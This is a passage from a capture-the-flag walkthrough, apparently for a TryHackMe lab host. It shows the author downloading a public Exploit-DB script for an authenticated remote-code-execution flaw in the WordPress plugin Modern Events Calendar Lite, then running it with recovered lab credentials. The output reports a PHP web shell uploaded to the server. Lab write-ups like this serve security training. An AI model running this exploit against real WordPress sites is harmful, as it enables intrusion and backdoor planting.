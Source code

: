 
Credentials work, remember the exploit where we got RCE but we needed authentication?

Time to use it then, let's download the script:

```
https://www.exploit-db.com/download/50082
```

Let's use it:

```python
python3 exploit.py -h

  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___|
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ \
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/

                * Wordpress Plugin Modern Events Calendar Lite RCE                              
                * @Hacker5preme



usage: exploit.py [-h] [-T IP] [-P PORT] [-U PATH] [-u USERNAME] [-p PASSWORD]

Wordpress Plugin Modern Events Calenar Lite RCE (Authenticated)

options:
  -h, --help            show this help message and exit
  -T, --IP IP
  -P, --PORT PORT
  -U, --PATH PATH
  -u, --USERNAME USERNAME
  -p, --PASSWORD PASSWORD
```

```python
python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p th3_tall3st_password_in_th3_world


  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___|
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ \
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/

                * Wordpress Plugin Modern Events Calendar Lite RCE                              
                * @Hacker5preme





[+] Authentication successfull !

[+] Shell Uploaded to: http://mountaineer.thm:80/wordpress//wp-content/uploads/shell.php
```
